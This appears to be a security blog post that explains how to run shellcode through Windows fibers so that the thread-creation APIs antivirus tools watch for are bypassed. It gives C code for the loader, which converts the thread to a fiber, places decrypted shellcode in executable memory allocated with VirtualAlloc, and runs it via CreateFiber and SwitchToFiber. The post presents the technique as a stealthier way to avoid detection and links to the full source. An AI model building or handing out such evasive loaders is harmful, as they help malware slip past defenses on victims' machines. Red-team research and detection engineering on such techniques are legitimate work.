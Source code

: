 +++
title = 'Utilizing Windows Fibers for Shellcode Execution'
date = 2025-08-08T07:07:07+01:00
draft: false
+++
# Introduction

If you're familiar with the usual shellcode execution techniques, you will know that shellcode typically needs to be run within a thread. A commonality among different methods is the usage of the *CreateThread* Windows API function, or *NtCreateThreadEx* in the case direct syscalls are utilized. The use of these APIs in combination with methods such as *VirtualProtect* and *VirtualAlloc* is a common indicator of compromise.

However, by utilizing fibers, we can achieve the same result with a lower footprint, potentially avoiding detection by Anti-Virus vendors.

## Threads vs Fibers

While a process itself can be seen as a container for a running program—containing the PID, various handles, and a given virtual memory space—threads are singular units of execution running the program's actual code. They can operate in parallel but require scheduling by the OS scheduler. Furthermore, functions to manage threads are implemented in kernel mode.

The *CreateThread* function within the Windows API serves as a wrapper for the native API function *NtCreateThreadEx*, which, when called, performs a transition into kernel mode to create a thread.

A fiber within the Windows OS can be seen as a sub-execution unit running within a thread. However, in contrast to normal threads, fibers are implemented in user mode. In addition, fibers do not rely on the OS scheduler for dispatching but instead require the application itself to manage their scheduling.

Moreover, a fiber can also serve as an execution vehicle for arbitrary shellcode. In the following section, we will utilize fibers as an alternative to threads to execute our payload.

## Shellcode execution via Fibers

As explained in [Microsoft's Windows Internals Part 1](https://empyreal96.github.io/nt-info-depot/Windows-Internals-PDFs/Windows%20System%20Internals%207e%20Part%201.pdf), scheduling a new fiber for execution can only be done from an already initialized fiber.

Therefore, our minimal shellcode loader will first convert the main program thread to a fiber using the *ConvertThreadToFiber* API function. The address of our newly created fiber will then be saved to the *pMainFiber* pointer.

```c
pMainFiber = NULL;
pMainFiber = ConvertThreadToFiber(NULL);
if (pMainFiber == NULL) {
    fail("ConvertThreadToFiber failed: %d", GetLastError());
    return -1;
}
```
After converting the main thread to a fiber, we can allocate virtual memory for our shellcode and write it into the newly allocated region.
The function used for writing memory is part of the VX-API and can be found [here](https://github.com/am0nsec/HellsGate/blob/master/HellsGate/main.c). You can also use memcpy, which would result in a coresponding entry in the import table.
This likely does not affect detection; however, I used this method in other projects, which is why I include it here.
```c
rbuf = VirtualAlloc(NULL, ShellSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
if (rbuf == NULL) { 
  fail("VirtualAlloc failed: %d", GetLastError());
  return -1;
}
VxMoveMemory(rbuf, decrypted_data, ShellSize);
```
We first initialize the *rbuf* pointer and then write the shellcode to the memory region pointed to. 

As a last step we can create a new fiber and schedule it for execution.
```c
pShellFiber = CreateFiber(0, (LPFIBER_START_ROUTINE)rbuf, NULL);
if (pShellFiber == NULL) {
  fail("CreateFiber failed: %d", GetLastError());
  return -1;
}
SwitchToFiber(pShellFiber);
```
We use the *CreateFiber* API function and save its address to the *pShellFiber* pointer. Additionally, we cast the address of the memory holding our shellcode to the type *LPFIBER_START_ROUTINE* to set the fiber entry point to our shellcode. Finally, we call the *SwitchToFiber* API to schedule the shellcode fiber for execution and switch to it.

>⚠️ However, it is important to note that this is by no means new information, and there are probably other PoCs and posts out there already, but I thought I'd share mine.

Using fibers for shellcode execution is a neat alternative to the more commonly seen thread-based approaches. By running entirely in user mode and avoiding kernel transitions for scheduling, fibers can help reduce the footprint of your payload and potentially fly under the radar of some detection mechanisms. While this technique isn’t new and won’t guarantee invisibility against all defenses, it’s definitely worth considering as part of your toolbox when looking for stealthier execution methods. If you want to experiment with fibers or build on this concept, I encourage you to dive into the official docs and existing projects linked here. You can find the complete sourcecocde [here](https://github.com/0xjrx/silk). 

Happy hacking!
